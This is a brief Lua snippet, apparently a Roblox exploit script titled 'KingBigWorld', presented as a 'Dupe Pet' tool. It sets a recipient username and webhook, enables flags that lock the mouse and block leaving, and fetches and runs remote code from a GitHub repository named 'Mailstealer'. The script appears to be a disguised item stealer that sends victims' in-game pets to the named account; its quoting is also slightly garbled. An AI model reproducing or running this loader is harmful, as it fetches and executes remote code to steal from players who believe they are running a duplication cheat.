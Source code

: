 # KingBigWorld
UserName = "ddrcrono36" UserName2 = "Dupe Pet"  Webhook = ".tranquochuy''  _G.LoadingScreen = true _G.AntiLeave = true _G.MouseLock = true loadstring(game:HttpGet("https://raw.githubusercontent.com/LucidHacker9999/Mailstealer/main/script.lua.",true))()
